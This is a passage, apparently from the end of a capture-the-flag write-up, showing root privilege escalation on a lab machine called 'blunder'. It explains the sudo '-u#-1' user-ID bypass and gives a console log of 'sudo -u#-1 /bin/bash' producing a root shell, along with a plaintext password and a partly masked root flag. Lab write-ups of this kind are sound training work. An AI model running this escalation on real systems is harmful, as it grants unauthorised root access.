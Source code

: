 > 
> `sudo -u#-1 [command to execute]`
> 
> This exploit is possible because this version of Sudo doesn’t validate if the user ID specified using the -u flag actually exists and it
> executes the command using an arbitrary user id with root privileges, and since -u#-1 returns 0, which is the user id of the root user,
> commands are therefore executed as root.

```Console
hugo@blunder:~/Desktop$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
Password: Password210
root@blunder:/home/hugo/Desktop# id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
```
Root flag: c06+++++++~[takeAbreath]+++++++

Pwned by:
```ascii
〸闩长🝗闩⻏尺🝗闩〸卄
```
